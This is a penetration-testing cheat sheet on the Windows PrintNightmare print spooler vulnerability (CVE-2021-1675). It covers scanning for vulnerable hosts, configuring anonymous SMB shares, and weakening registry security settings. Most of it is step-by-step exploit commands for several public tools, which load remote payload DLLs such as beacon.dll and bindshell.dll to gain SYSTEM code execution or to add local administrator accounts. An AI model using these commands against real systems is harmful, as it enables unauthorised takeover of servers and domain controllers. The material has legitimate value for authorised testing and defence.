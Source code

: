# PrintNightmare

[CVE-2021-1675](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-1675) is a critical remote code execution and local privilege escalation vulnerability dubbed "PrintNightmare."

The print spooler service is vulnerable to remote code execution that leverages a compromised user account, either domain-joined or local account, to take full control of a system as the NT SYSTEM user. Proof-of-concept (PoC) code has been made publicly available for this new vulnerability leaving every Windows system at extreme risk. An adversary exploiting this vulnerability can leverage a domain-joined account, regardless of permissions, to take full control as NT SYSTEM on any domain-joined Windows system. This includes servers and Domain Controllers. An adversary exploiting this vulnerability can also leverage a local account to take full control as NT SYSTEM on any Windows system that the local account is valid.

## <mark style="color:red;">Requirements</mark>

* **Spooler Service** enabled (Mandatory)
* Server with patches < June 21
* DC with `Pre Windows 2000 Compatibility` group
* Server with registry key `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = (DWORD) 1
* Server with registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = (DWORD) 0

## <mark style="color:red;">Detection</mark>

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```
# impacket
python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol



# it was all a dream
git clone https://github.com/byt3bl33d3r/ItWasAllADream
cd ItWasAllADream && poetry install && poetry shell
itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
```

## <mark style="color:red;">Tools</mark>

{% embed url="https://github.com/cube0x0/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/calebstewart/CVE-2021-1675" %}

{% embed url="https://github.com/outflanknl/PrintNightmare" %}

## <mark style="color:red;">Exploitation</mark>

#### here we use the [python exploit](https://github.com/cube0x0/CVE-2021-1675) because it can do the job remotely.

```
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

```
CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share
```

### <mark style="color:orange;">SMB configuration</mark>

#### Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf` to allow anonymous access

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

#### <mark style="color:green;">From windows it's also possible</mark>

```
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

#### example:

```
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### <mark style="color:orange;">other methods</mark>

[SharpNightmare](https://github.com/cube0x0/CVE-2021-1675)

```
# require a modified Impacket: https://github.com/cube0x0/impacket
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
## LPE
SharpPrintNightmare.exe C:\addCube.dll
## RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
## RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
```

[Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)

```
## LPE only (PS1 + DLL)
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

[Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)

```
## LPE
misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
## RCE
misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
```

[PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)

```
PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
```
